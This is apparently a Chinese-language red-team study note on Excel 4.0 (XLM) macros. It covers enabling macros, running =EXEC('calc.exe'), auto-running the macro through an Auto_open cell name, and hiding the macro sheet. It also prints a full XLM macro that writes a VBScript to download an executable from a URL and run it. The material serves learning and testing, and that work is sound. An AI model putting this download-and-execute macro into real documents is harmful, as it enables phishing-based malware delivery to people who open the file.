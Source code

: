 # Excel4.0宏

> [利用Excel 4.0宏执行任意命令 | AdminTony's Blog](http://www.admintony.com/Excel-4-0-macros.html)
>
> [atomic-red-team/atomics/T1204.002/T1204.002.md at 2dcdc27df73cc343d308e7c0afa37f2d77aa02e1 · Ayusummer/atomic-red-team (github.com)](https://github.com/Ayusummer/atomic-red-team/blob/2dcdc27df73cc343d308e7c0afa37f2d77aa02e1/atomics/T1204.002/T1204.002.md#atomic-test-6---excel-4-macro)
>
> ---
>
> [使用 Excel 4.0 宏 - Microsoft 支持](https://support.microsoft.com/zh-cn/office/使用-excel-4-0-宏-ba8924d4-e157-4bb2-8d76-2c07ff02e0b8)
>
> ---
>
> [老树开新花：利用Excel 4.0宏躲避杀软检测的攻击技术分析 (qq.com)](https://mp.weixin.qq.com/s/KVpO02KJWE6OVZDb0ungOA)
>
> [Old school: evil Excel 4.0 macros (XLM) | Outflank](https://www.outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)

Excel 4.0 宏是一种在 Microsoft Excel 中使用的宏语言，它是 Excel 中较早期版本的一部分，通常用于自动化和批处理任务。Excel 4.0 宏提供了一组命令和函数，可以执行各种操作，包括计算、数据操作、格式设置等。

Microsoft很早就使用VBA宏（Visual Basic for Applications）来代替Excel 4.0宏技术，这导致Excel 4.0宏并不为大众所熟知。并且Excel 4.0宏存放在Excel 97 - 2003格式（.xls）文件中。

默认情况下 office 是禁用宏的, 要启用 Excel4.0宏支持需要

`打开 Excel -> 文件 -> 选项 -> 信任中心 -> 信任中心设置 -> 宏设置 -> 启用所有宏`

![image-20240422170036218](http://cdn.ayusummer233.top/DailyNotes/202404221700959.png)

创建一个新的 Excel 工作簿, `右键 Sheet1 -> 插入 -> MS Excel 4.0 宏表`

![image-20240422170503721](http://cdn.ayusummer233.top/DailyNotes/202404221706938.png)

![image-20240422170635598](http://cdn.ayusummer233.top/DailyNotes/202404221706681.png)

`确定` 后可以看到多了一张名为 `宏1` 的表, 可以在其中输入 XLM宏, 然后可以单击任何单元格并在此单元格和竖直下面的单元格中输入宏公式

![image-20240422170717659](http://cdn.ayusummer233.top/DailyNotes/202404221707820.png)

XLM 宏有如下特征:

- **函数式宏**：XLM 宏通常以函数的形式出现在 Excel 单元格中。这些函数以等号（=）开头，后面跟随一系列的参数和函数名。例如：`=HALT()`。
- **内置函数**：XLM 提供了一系列内置函数，用于执行各种操作，如文件操作、计算、格式设置等。例如：`HALT()` 用于停止执行宏，`GOTO()` 用于跳转到指定位置等。
- **参数**：XLM 函数可以带有参数，用于指定函数执行时所需的信息。参数可以是常量、单元格引用或者其他函数的返回值。
- **宏表**：除了存储在单元格中，XLM 宏还可以存储在 Excel 的宏表中。宏表是一种特殊的工作表，其中的内容被解释为宏代码而不是普通的数据。你可以在 Excel 中创建宏表，并在其中编写 XLM 宏代码。
- **简单的语法**：相比于 VBA（Visual Basic for Applications），XLM 的语法相对简单。它没有像 VBA 那样的完整的编程语言功能，但足以完成一些基本的自动化任务。

例如写一个调起计算器的 XLM:

```
=EXEC("calc.exe")
=HALT()
```

然后可以右键宏起始单元格选择 `执行`

![image-20240422173251380](http://cdn.ayusummer233.top/DailyNotes/202404221732515.png)

![image-20240422173504260](http://cdn.ayusummer233.top/DailyNotes/202404221735383.png)

![image-20240422173531256](http://cdn.ayusummer233.top/DailyNotes/202404221735362.png)

---

## 自动执行

如果希望在打开工作簿时自动运行宏（类似于VBA宏的 `Sub AutoOpen()`）可以将宏的第一个单元格重命名为`Auto_open`

![image-20240422174158340](http://cdn.ayusummer233.top/DailyNotes/202404221741405.png)

保存时选择 `Excel 97-2003 工作簿(*.xls)`

![image-20240422174251880](http://cdn.ayusummer233.top/DailyNotes/202404221742953.png)

再打开这个文件时会自动执行宏

![image-20240422174334700](http://cdn.ayusummer233.top/DailyNotes/202404221743787.png)

---

## 隐藏表单

![image-20240422174355987](http://cdn.ayusummer233.top/DailyNotes/202404221743058.png)

![image-20240422174404534](http://cdn.ayusummer233.top/DailyNotes/202404221744642.png)

即便隐藏了, 设置自动执行的宏也会自动执行

![image-20240422174438706](http://cdn.ayusummer233.top/DailyNotes/202404221744835.png)

---

## 加载 shellcode

> [老树开新花：利用Excel 4.0宏躲避杀软检测的攻击技术分析 (qq.com)](https://mp.weixin.qq.com/s/KVpO02KJWE6OVZDb0ungOA)
>
> [Old school: evil Excel 4.0 macros (XLM) | Outflank](https://www.outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)

---

## 下载与执行远程文件

虽然 XLM 不支持网络操作和文件下载, 但是可以通过新建并写入一个 VBScript 并运行来实现下载与运行

例如

```
Win10Pro
procexp.exe
atomic_redteam_x4m_exec.vbs
=IF(ISNUMBER(SEARCH("64",GET.WORKSPACE(1))), GOTO(A5),)
=FOPEN("C:\Users\"&A1&"\AppData\Local\Temp\"&A3&"", 3)
=FWRITELN(A5, "url = ""http://127.0.0.1:8000/download/msedge.exe""")
=FWRITELN(A5, "")
=FWRITELN(A5, "Set winHttp = CreateObject(""WinHTTP.WinHTTPrequest.5.1"")")
=FWRITELN(A5, "winHttp.Open ""GET"", url, False")
=FWRITELN(A5, "winHttp.Send")
=FWRITELN(A5, "If winHttp.Status = 200 Then")
=FWRITELN(A5, "Set oStream = CreateObject(""ADODB.Stream"")")
=FWRITELN(A5, "oStream.Open")
=FWRITELN(A5, "oStream.Type = 1")
=FWRITELN(A5, "oStream.Write winHttp.responseBody")
=FWRITELN(A5, "oStream.SaveToFile ""C:\Users\"&A1&"\AppData\Local\Temp\"&A2&""", 2")
=FWRITELN(A5, "oStream.Close")
=FWRITELN(A5, "End If")
=FCLOSE(A5)
=EXEC("explorer.exe C:\Users\"&A1&"\AppData\Local\Temp\"&A3&"")
=WAIT(NOW()+"00:00:05")
=EXEC("explorer.exe C:\Users\"&A1&"\AppData\Local\Temp\"&A2&"")
=HALT()
```

![image-20240422190714511](http://cdn.ayusummer233.top/DailyNotes/202404221907695.png)

![image-20240422191356514](http://cdn.ayusummer233.top/DailyNotes/202404221913585.png)

![image-20240422191427234](http://cdn.ayusummer233.top/DailyNotes/202404221914321.png)

---

## 相关链接

- [常见钓鱼招式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10339?time__1311=Cqjx2QD%3DiteWqGNDQimOgbtDtt0QtDReOYD)

---















